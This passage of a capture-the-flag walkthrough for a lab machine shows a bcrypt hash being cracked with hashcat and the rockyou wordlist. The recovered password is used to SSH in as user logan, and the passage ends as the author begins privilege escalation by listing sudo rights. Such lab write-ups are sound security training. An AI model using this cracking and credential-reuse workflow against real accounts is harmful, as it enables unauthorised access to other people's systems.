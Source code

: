 We found a bcrypt hash belong to logan and we will try use hashcat to crack it.

To start with we add the hash in a file.

```shell
labadmin@labmachine:~/devvortex$ echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan.hash
```

Grep the hashcat to find bcrypt hash-mode.

```shell
labadmin@labmachine:~/devvortex$ hashcat --help | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

Finally we execute hashcat to crack it.

```shell
labadmin@labmachine:~/devvortex$ hashcat -m 3200 -a 0 logan.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
[OMITTED]

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:[OMITTED]

[OMITTED]
```

Hashcat cracked the hash successfully and we use it to ssh as logan.

And we get the flag.

```shell
labadmin@labmachine:~/devvortex$ ssh logan@10.10.11.242
[OMITTED]
Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23
logan@devvortex:~$ cat user.txt
[OMITTED]
logan@devvortex:~$
```

### Privilege escalation

```shell
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$
```
